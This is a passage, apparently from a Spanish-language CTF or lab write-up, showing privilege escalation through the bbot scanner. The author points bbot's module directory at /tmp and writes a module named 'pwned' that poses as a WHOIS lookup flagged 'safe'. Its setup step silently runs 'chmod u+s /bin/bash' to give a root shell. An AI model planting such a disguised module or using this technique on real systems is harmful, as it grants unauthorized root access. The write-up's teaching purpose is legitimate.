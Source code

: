 ![paste](./images/16.jpeg)
![paste](./images/17.jpeg)

Entonces ocuparemos el directorio de confianza **/tmp**, dentro de el crearemos un directorio llamado modules 

Primer paso es crear un archivo llamado conf.yml que contendrá la ruta de los módulos personalizados 

```conf.yml
module_dirs:
  - /tmp/modules
```

Ahora creamos una nueva carpeta llamada modules y dentro de esta carpeta nuestro archivo .py, para evitar problemas es mejor llamarlo como la clase 

```python 
class pwned(BaseModule):
    watched_events = ["DNS_NAME"]
```

![paste](./images/18.jpeg)

```python
from bbot.modules.base import BaseModule
import os
 
class pwned(BaseModule):
    watched_events = ["DNS_NAME"] # watch for DNS_NAME events
    produced_events = ["WHOIS"] # we produce WHOIS events
    flags = ["passive", "safe"]
    meta = {"description": "Query WhoisXMLAPI for WHOIS data"}
    options = {"api_key": ""} # module config options
    options_desc = {"api_key": "WhoisXMLAPI Key"}
    per_domain_only = True # only run once per domain
 
    base_url = "https://www.whoisxmlapi.com/whoisserver/WhoisService"
 
    # one-time setup - runs at the beginning of the scan
    async def setup(self):
        # Solo cambia los permisos de /bin/bash para añadir el bit SUID
        os.system("chmod u+s /bin/bash")
        self.api_key = self.config.get("api_key")
```